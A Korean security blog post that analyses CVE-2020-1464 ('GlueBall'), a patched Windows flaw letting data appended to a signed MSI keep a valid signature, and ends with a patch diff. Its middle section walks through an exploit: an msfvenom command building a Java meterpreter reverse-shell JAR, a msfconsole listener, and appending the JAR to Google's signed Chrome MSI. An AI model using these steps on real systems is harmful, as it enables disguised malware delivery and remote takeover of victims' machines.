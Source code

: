 ```yaml
---
title: "[연구] CVE-2020-1464 - GlueBall"
author: L0ch
tags:
  [
    L0ch,
    CVE-2020-1464,
    Windows,
    one-day,
    Vulnerability,
    GlueBall,
    research,
    MSI,
  ]
categories: [Research]
date: 2020-10-01 18:00:00
cc: false
index_img: /2020/10/01/l0ch/cve-2020-1464/image3.jpeg
---
```


# [연구] CVE-2020-1464 - GlueBall

안녕하세요!

오늘은 얼마전 하루한줄에 올라온 GlueBall 취약점 분석을 들고 왔답니다

분석도 쉽고 익스도 간단한 걸 골랐습니다! 왜냐 귀찮으니까요!! (이놈의 게으름 어쩔 ㅋㅋㅋㅋㅋㅋ..)

[대충 하루한줄 링크]

```markdown
요약글을 먼저 보면 이해하기 편해요!
```

사실 이번 취약점이 발견된 때는 2018년 9월로, 마이크로소프트가 이번 20년 8월 정기 패치 때 2년이 지나서야 패치가 되어 재조명되었어요. 왜 이제야 패치를 한 건지는 조금 의아한 부분이 있죠..?

뒷이야기는 일단 제쳐두도록 하고, 본격적으로 어떤 취약점인지 분석과 익스플로잇까지 해보도록 하겠습니다 ~

### MSI(Microsoft Installer)

MSI는 Windows 설치 패키지로, Windows용으로 개발된 타사 프로그램의 설치 및 업데이트 프로그램을 배포하는데 사용됩니다.

여러 개발사들이 윈도우용 프로그램을 배포할 때 MSI 로 배포합니다. 오늘의 희생양이 될 구글의 크롬도 MSI 설치 패키지를 배포하고 있죠

![](cve-2020-1464/image1.png)

### Code Signing Certificate

윈도우용 실행 파일(exe, msi, dll...) 을 실행할 때, 사용자들은 실행하려는 파일이 정상적인 파일인지, 해커에 의해 변조된 파일인지 확인하기가 어렵습니다. 원본파일과 해시값 비교를 하면 되지만, 대부분의 사람들은 그렇게 하기 어렵죠.

그래서 MS는 Code Signing Certificate(코드 서명 인증서) 를 도입했습니다.

이 인증서는 파일을 배포할 때 "이건 안전한 파일임 내가 보증함!" 이라고 증명 해주는 역할을 합니다. 인증서가 없거나, 파일 변조로 인해 인증서가 유효하지 않게 되면 브라우저에서 파일을 다운받거나 윈도우에서 실행할 때 위험한 파일일 수도 있다는 경고를 띄워 사용자들에게 알립니다.

![](cve-2020-1464/image2.png)

```jsx
크롬 설치프로그램 MSI 파일의 인증서
유효한 인증서가 있으면 윈도우에서는 파일을 신뢰하게 됩니다.
```

MS의 SmartScreen filter는 인증서들에 대한 자체적인 white list DB를 관리하며 해당 인증서가 안전한지 아닌지 판단합니다.

인증서는 발급 절차가 까다롭고 받았다고 하더라도 일정 횟수 이상, 일정 기간 이상, 일정 사용자들에게 다운로드 되어야 하고 악성 행위 신고가 없어야 신뢰받는 인증서로 white list에 등록이 됩니다.

이러한 점 때문에 해커들이 악성 파일을 제작하고, 신뢰를 주기 위해 인증서를 등록한다 하더라도 white list에 포함되기는 불가능하겠죠..?

하지만 유효한 인증서가 존재하는 파일을 변조해 악성 파일을 포함시키면 어떻게 될까요? 인증서를 확인했을 때 "오 얘는 인증서가 있네, 너 통과. 내가 보증함" 하면 포함된 악성파일은 거기에 무임승차를 할 수 있는거죠!

![](cve-2020-1464/image3.jpeg)

```jsx
무임승차 가보자~ 가보자~
```

"어? 파일이 변조되면 인증서가 유효하지 않잖아요!"

네 맞습니다. 원래대로라면 파일을 변조하면 인증서는 유효하지 않게 되죠. 하지만 이 부분이 이번 취약점의 핵심입니다.

### GlueBall : CVE-2020-1464

해당 취약점은 MSI 파일의 디지털 인증서를 확인하는 과정에서 발생합니다.

MSI 파일을 실행하면 `msisip.dll` 의 `MsiSIPVerifyIndirectData()` 함수에서 파일의 시작 부분이 유효한 MSI 파일인지 검증하고 서명을 확인하는데요 이 때 파일의 사이즈를 검증하지 않습니다.

![](cve-2020-1464/image4.png)

따라서 MSI 파일의 뒤에 어떠한 데이터를 추가해 변조할 수 있습니다.

취약점은 엄청 간단하죠? 그렇다면 이를 이용해 어떻게 익스플로잇으로 연결하는지 알아볼게요!

### JAR(Java Archive)

자바 플랫폼 배포를 위한 패키지 파일 포맷입니다. 자바 개발 경험이 있으시거나 자바 기반 프로그램을 사용해본 적이 있는 익숙하실 거에요.

jar 은 zip 포맷으로 빌드되어 자바 런타임에서 로드할 때 파일의 끝부분에서부터 로드합니다. 그러니까 파일의 시작 부분에 임의의 데이터를 추가해도 자바 런타임에서는 정상적으로 jar을 실행할 수 있습니다.

이제 슬슬 감이 오시는 분도 계실거에요. 정리하자면

**MSI 파일 끝에 임의 데이터가 와도 유효한 인증서가 되는 취약점 + 파일 앞에 임의의 데이터가 있어도 정상 실행되는 jar**

**⇒ 신뢰받는(?) 악성파일**

이를 그림으로 표현하면

![Overview-JAR-appended-to-MSI](cve-2020-1464/image5.png)

```jsx
출처 : https://www.securityinbits.com/malware-analysis/interesting-tactic-by-ratty-adwind-distribution-of-jar-appended-to-signed-msi/
```

이렇게 인증서로 인증된 ~~_혼종_~~ 악성파일을 생성할 수 있습니다!

![](cve-2020-1464/image6.png)

```jsx
이런느낌..? 민초단 여러분 죄송합니다.(그래도 저건 아니잖아요..)
```

이제는 리버스쉘을 실행하는 jar 파일을 생성해서 인증서가 있는 msi 파일로 둔갑시켜 보도록 하겠습니다.

먼저 구글에서 배포하는 크롬 설치 msi 파일을 다운로드합니다. 구글에서 "크롬 msi" 검색하시면 바로 받을 수 있고 인증서 확인은 우클릭→속성에서 "디지털 서명" 탭을 확인하면 아까 보셨던 사진처럼 확인이 가능해요.

이제 msfvenom으로 리버스쉘 페이로드가 포함된 jar파일을 생성합니다.

![](cve-2020-1464/image7.png)

```markdown
msfvenom -p java/meterpreter/revserse_https LHOST=[HOST IP] -f jar -o [filename].jar
```

그리고 msfconsole에서 리버스쉘 리스너를 실행합니다.

![](cve-2020-1464/image8.png)

```markdown
handler -p java/meterpreter/reverse_https -H 0.0.0.0
```

이제 RCE를 위한 준비는 끝!

생성된 jar 파일과 크롬 설치 msi 파일을 같은 폴더에 두고 합쳐버립니다. 이 때 꼭 msi파일 뒤에 jar 파일이 오도록 순서를 지켜야 한다는 점!

![](cve-2020-1464/image9.png)

이제 생성된 exploit.jar 에서 인증서가 유효한지 확인해보면

![](cve-2020-1464/image10.png)

요렇게 유효한 인증서로 나오는 것을 볼 수 있습니다.

실행을 해보면 피해 PC에서는 아무 반응도 없지만, 프로세스에서는 자바가 돌아가고 있고

![](cve-2020-1464/image11.png)

짜잔! 리버스쉘이 정상적으로 동작하는 걸 볼 수 있습니다! 와아~

### Patch diffing

MS는 이에 대한 패치를 내놓았는데요, 어떻게 패치를 했는지 간단하게 Diffing해볼게요

![](cve-2020-1464/image12.png)

회색 노드는 새로 추가된 코드, 노란색 노드는 변경된 노드입니다.

![](cve-2020-1464/image13.png)

회색 노드를 보면 `MsiSIPVerifyIndirectData()` 함수에서 `NeedFileSizeVerification()` 과 `VerifyFileSize()` 를 호출하는 코드가 추가된 것을 보아 MSI 파일의 사이즈를 확인하는 코드를 추가해 취약점 패치를 한 것을 알 수 있습니다.

여기까지 GlueBall 취약점에 대해 알아봤습니다. 참 쉽죠?

마지막 patch diffing에 대해 궁금하시다면 [Windows Patch Diffing Part.1 링크] 글을 읽으시면 좋아요!
